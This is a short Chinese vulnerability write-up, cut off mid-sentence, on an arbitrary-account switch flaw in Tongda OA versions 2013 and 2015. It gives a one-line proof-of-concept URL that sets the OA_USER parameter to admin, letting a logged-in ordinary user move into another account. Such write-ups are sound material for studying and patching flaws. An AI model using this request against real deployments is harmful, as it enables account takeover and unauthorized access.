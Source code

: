 通达oa 任意账号跳转
===================

一、漏洞简介
------------

需要登录

二、漏洞影响
------------

2013、2015版本

三、复现过程
------------

POC:

    http://0-sec.org/interface/ugo.php?OA_USER=admin

通过控制OA\_USER参数进行任意⽤户的跳转，⽐如说你现在是个普通权限的⽤户，使用这个⻚面即可跳转到
